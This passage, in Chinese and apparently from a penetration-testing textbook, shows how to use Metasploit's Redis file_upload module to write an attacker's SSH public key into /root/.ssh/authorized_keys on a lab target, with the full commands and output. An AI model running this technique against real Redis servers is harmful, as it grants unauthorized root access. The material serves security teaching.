 ### Metasploit

我们可以通过使用 Metasploit 辅助模块以类似的方式攻破 Redis。*Metasploit* 是一个渗透测试、漏洞评估和利用平台，使用 Ruby 语言编写，由 H.D. Moore 创建。它可以执行许多任务，包括部署有效载荷。

在本节中，我们将使用 Metasploit 利用 Redis 漏洞。这将使你接触到 Metasploit，并展示其他的利用方法。在 Kali 上，通过运行 msfconsole 命令启动 Metasploit：

```
$ **msfconsole**
```

接下来，通过运行 use 命令并指定模块路径来使用 Redis *file_upload* 辅助模块：

```
msf > **use auxiliary/scanner/redis/file_upload**
```

该模块需要一些选项；运行 show options 以查看它们：

```
msf auxiliary(scanner/redis/file_upload) > **show options**

Module options (auxiliary/scanner/redis/file_upload):

Name                    Current Setting  Required  Description
----                    ---------------  --------  -----------
DISABLE_RDBCOMPRESSION  true             yes       Disable compression when saving if found...
FLUSHALL                false            yes       Run flushall to remove all redis data be...
**LocalFile                                no        Local file to be uploaded**
PASSWORD                foobared         no        Redis password for authentication test
**RHOSTS                                   yes       The target host(s), see https://docs.**
 **metasploit.com/docs/using-metasploit/**
 **basics/using-metasploit.html**
RPORT                   6379             yes       The target port (TCP)
**RemoteFile                               no        Remote file path**
THREADS                 1                yes       The number of concurrent threads 
```

我们已将你需要设置的选项加粗。LocalFile 选项应指向包含公钥的文件路径；RHOSTS 应指向 127.0.0.1，我们已在此设置了本地端口转发；RemoteFile 应指向远程文件路径，LocalFile 应上传到该路径：

```
msf auxiliary(scanner/redis/file_upload) > **set LocalFile "/home/kali/.ssh/id_rsa.pub"**
LocalFile => /home/kali/.ssh/id_rsa.pub

msf auxiliary(scanner/redis/file_upload) > **set RemoteFile  "/root/.ssh/authorized_keys"**
RemoteFile => /root/.ssh/authorized_keys

msf auxiliary(scanner/redis/file_upload) > **set RHOSTS 127.0.0.1**
RHOSTS => 127.0.0.1 
```

最后，使用 run 命令运行利用程序：

```
msf auxiliary(scanner/redis/file_upload) > **run**

[+] 127.0.0.1:6379 - 127.0.0.1:6379  -- saved 564 bytes inside of redis DB at
/root/.ssh/authorized_keys
[*] 127.0.0.1:6379 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```
